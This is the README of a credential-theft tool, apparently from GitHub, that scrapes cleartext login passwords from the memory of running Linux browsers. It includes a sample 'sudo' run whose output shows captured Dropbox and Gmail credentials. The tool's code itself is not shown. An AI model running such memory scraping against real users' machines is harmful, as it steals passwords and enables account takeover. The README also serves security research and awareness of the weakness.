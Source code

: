 # mimikittenz4Linux

Many web browsers persists cleartext POST requests in memory far after the request is made. This can be abused to steal cleartext passwords out of memory following login requests.

The [mimikittenz project](https://github.com/putterpanda/mimikittenz) demonstrates extracting cleartext passwords out of memory from a running browser in a Windows system. This tool does the same thing for Linux systems. The regexes are taken directoy from the mimikittenz project

## Example

```
sudo mimikittenz.py
Found chrome running, scanning....
PID = 19789
PID = 19800
PID = 19801
PID = 19804
PID = 19853
PID = 19908
PID = 20329
PID = 21041
Found service Dropbox: ['login_email=somedudesemail%40gmail.com&login_password=thisisasecretpassword&remember_me=True&', 'login_email=somedudesemail%40gmail.com&login_password=thisisasecretpassword&remember_me=True&', 'login_email=somedudesemail%40gmail.com&login_password=thisisasecretpassword&remember_me=True&']
Found chromium running, scanning....
PID = 17497
PID = 17531
PID = 18653
PID = 20757
PID = 27493
PID = 27502
PID = 27504
PID = 27565
PID = 27655
PID = 27683
Found service Gmail: ['&Email=somedudesemail&Passwd=someOTHERsecretpassword&PersistentCookie=']
Found firefox running, scanning....
PID = 3810
PID = 3872
```

## Extra considerations

Though this tool is designed to extract query parameters from POST requests, as Single Page Apps become more popular, it is likely password variables will persist, due to developers not deleting them following login requests. These services will be exploitable using simaliar methods to the ones shown in this tool.

## Don't use my tool, use this other one

This tool https://github.com/n1nj4sec/memorpy is one I descovered after making mimikittenz4Linux. One of it's examples does functionally the same thing as this tool, with a few extra features. 

